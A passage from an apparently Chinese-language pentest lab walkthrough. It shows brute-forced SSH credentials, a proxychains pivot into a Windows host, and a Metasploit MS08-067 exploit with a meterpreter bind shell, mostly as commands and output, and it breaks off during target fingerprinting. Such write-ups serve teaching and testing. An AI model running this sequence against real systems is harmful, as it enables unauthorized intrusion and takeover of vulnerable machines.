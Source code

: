 Hydra (http://www.thc.org/thc-hydra) finished
root@kali:~#
</pre>
<p nodeIndex="110"><span nodeIndex="259">发现有可用帐户密码admin:123456,然后再用sock4代理ssh登录:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="111">
root@kali:~# proxychains ssh admin@7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
The authenticity of host '7.7.7.20 (7.7.7.20)' can't be established.
ECDSA key fingerprint is SHA256:Rcz2KrPF3BTo16Ng1kET91ycbr9c8vOkZcZ6b4VawMQ.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '7.7.7.20' (ECDSA) to the list of known hosts.
admin@7.7.7.20's password: 
bvshell:/C/Documents and Settings/All Users$ pwd
/C/Documents and Settings/All Users
bvshell:/C/Documents and Settings/All Users$ dir
2016-12-24  21:32          <DIR> Application Data
2016-12-25  06:16          <DIR> Desktop
2016-12-24  18:36          <DIR> Documents
2016-12-24  18:37          <DIR> DRM
2016-12-24  21:32          <DIR> Favorites
2016-12-24  18:38          <DIR> Start Menu
2016-12-24  21:32          <DIR> Templates
      0 Files                  0 bytes
      7 Directories
bvshell:/C/Documents and Settings/All Users$
</pre>
<p nodeIndex="112"><span nodeIndex="260">或者用ms08067:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="113">
msf > use exploit/windows/smb/ms08_067_netapi 
msf exploit(ms08_067_netapi) > show options 
Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST                     yes       The target address
   RPORT    445              yes       The SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Exploit target:
   Id  Name
   --  ----   0   Automatic Targeting
msf exploit(ms08_067_netapi) > set rhost 7.7.7.20rhost => 7.7.7.20msf exploit(ms08_067_netapi) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(ms08_067_netapi) > show options 
Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    7.7.7.20         yes       The target address
   RPORT    445              yes       The SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Payload options (windows/meterpreter/bind_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     7.7.7.20         no        The target address
Exploit target:
   Id  Name
   --  ----   0   Automatic Targeting
msf exploit(ms08_067_netapi) > run
[*] Started bind handler
[*] 7.7.7.20:445 - Automatically detecting the target...
[*] 7.7.7.20:445 - Fingerprint: Windows 2003 - Service Pack 2 - lang:Unknown